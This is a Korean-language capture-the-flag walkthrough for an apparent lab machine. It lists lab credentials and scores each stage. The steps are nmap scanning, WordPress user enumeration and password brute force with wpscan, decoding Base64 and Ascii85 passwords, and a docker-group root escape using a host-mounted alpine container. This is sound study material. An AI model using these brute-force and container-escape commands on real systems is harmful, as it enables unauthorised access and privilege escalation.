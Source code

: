 Wordpress  
	firewall_admin - firework    
	JY - archives  
	JiH - articles  
	JH - article  
	MJ - archive  
Linux  
	root - firewallrootpassword  
	JY - YXJjaGl2ZXM=  
	JIH - YXJ0aWNsZXM=  
	JH - YXJ0aWNsZQ==  
	MJ - YXJjaGl2ZQ==  
	linux_adnmin -   
		YWxpY2UJYWxpMTIxMgpib2IJcGFzc3dvcmQxMjMKY2hhcmxpZQlxd2VydHk0NTYKZGF2ZQlsZXRtZWluNzg5CkpZCWFyY2hpdmVzCkppSAlhcnRpY2xlcwpldmUJc2VjdXJlUGFzcyEKZnJhbmsJMTIzNDVhYmNkZQpncmFjZQlpbG92ZUN5YmVyQ2hlZgpoZWlkaQloZWxsb1dvcmxkOTkKSkgJYXJ0aWNsZQppdmFuCXNlY3JldF9rZXkKanVkeQlzdXBlclN0cm9uZ1B3ZApNSglhcmNoaXZl  
  
# 1. 사전 탐색 (1 point)  
`nmap victim IP` : 192.168.56.225(fixed), port 22/80/8080  
`http://192.168.56.225/index.html` : html webpage  
`http://192.168.56.225:8080` : wordpress -> wpscan 요구  
  
# 2. wpscan (2 point)  
`wpscan --url http://192.168.1.225:8080 --enumerate u,p` : User ID 확인  
![img](./Pasted%20image%2020241010085016.png)  
  
첫 번째 포스트 CTF : ignite page sorce 확인  
![](Pasted%20image%2020241010093329.png)  
![](Pasted%20image%2020241010085314.png)  
  
`wpscan --url http://192.168.56.225:8080 -U users.txt -P /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` : ID/PW 확인	  
![](Pasted%20image%2020241010092018.png)  
  
# 3. MJ(Chef Worker) 계정 로그인 (1 point)  
#### wordpress MJ 계정 로그인  
![Pasted%20image%2020241010092258.png](Pasted%20image%2020241010092258.png)  
![Pasted%20image%2020241010092402.png](Pasted%20image%2020241010092402.png)  
  
#### Linux MJ 계정 로그인  
ID:MJ / PW:YXJjaGl2ZQ== ("archive" to Base64)  
  
`ls -al` : 숨겨진 List Passcode 파일 - w\[=o%Cvtr7wb ("firewalld" to Ascii85)  
	![Pasted%20image%2020241010101627.png](Pasted%20image%2020241010101627.png)  
  
`ls -l /home` : home 폴더, 모든 폴더는 others가 읽고 실행 가능  
	![Pasted%20image%2020241010101651.png](Pasted%20image%2020241010101651.png)  
  
`ls -al /home/linux_admin` : linux_admin home 폴더, 숨겨진 PASSWORD 파일   
`cat /home/linux_admin/.PASSWORD` : "Linux Admin PW is made with all user's ID and PW"  
![Pasted%20image%2020241010101728.png](Pasted%20image%2020241010101728.png)  
  
#### Protected: ID/PW List on wordpress  
wordpress protected post : "firewalld" 입력  
![Pasted%20image%2020241010095049.png](Pasted%20image%2020241010095049.png)  
![Pasted%20image%2020241010095132.png](Pasted%20image%2020241010095132.png)  
![](Pasted%20image%2020241010095218.png)  
  
"Linux Admin PW is made with all user's ID and PW" : 모든 ID/PW 복사 -> CyberChef(firefox)  
![Pasted%20image%2020241023115057.png](Pasted%20image%2020241023115057.png)  
  
  
# 4. Linux_admin 계정 로그인 (3 point)  
ID : linux_admin / PW : cyberchef 참고  
  
`cat ignite_1_first_flag.txt` : linux_admin flag 확인  
![Pasted%20image%2020241010101832.png](Pasted%20image%2020241010101832.png)  
  
# 5. Docker 취약점 확인 및 공격 (3 point)  
`id linux_admin` : linux_admin ID 확인  
![Pasted%20image%2020241010101849.png](Pasted%20image%2020241010101849.png)  
  
**Kali**  
`docker pull alpine` : alpine docker image download  
`docker save -o alpine_image.tar alpine` : alpine image 압축  
`scp alpine_image.tar linux_admin@192.168.56.225:/home/linux_admin/` : ssh를 통해 alpine_image.tar 전송  
  
**Linux_admin**  
`docker load -i alpine_image.tar` : alpine image download  
`docker images` : alpine images 확인  
![Pasted%20image%2020241010105715.png](Pasted%20image%2020241010105715.png)  
`docker run -v /:/mnt -it alpine chroot /mnt sh` : docker image:alpine을 이용해 root 접속  
![img](Pasted%20image%2020241010105854.png)  
  
# 6. root 계정 / Flag (1 point)  
![img](./Pasted%20image%2020241010105937.png)  
